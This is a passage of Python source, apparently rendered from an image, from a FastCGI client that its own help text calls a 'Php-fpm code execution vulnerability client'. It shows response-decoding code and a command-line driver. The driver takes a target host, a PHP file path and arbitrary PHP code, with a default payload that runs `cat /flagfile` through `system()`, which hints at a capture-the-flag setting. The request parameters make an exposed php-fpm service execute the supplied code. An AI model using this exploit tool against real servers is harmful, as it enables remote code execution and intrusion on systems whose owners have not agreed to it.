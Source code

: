 ```python
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php system("cat /flagfile"); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=28074, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
```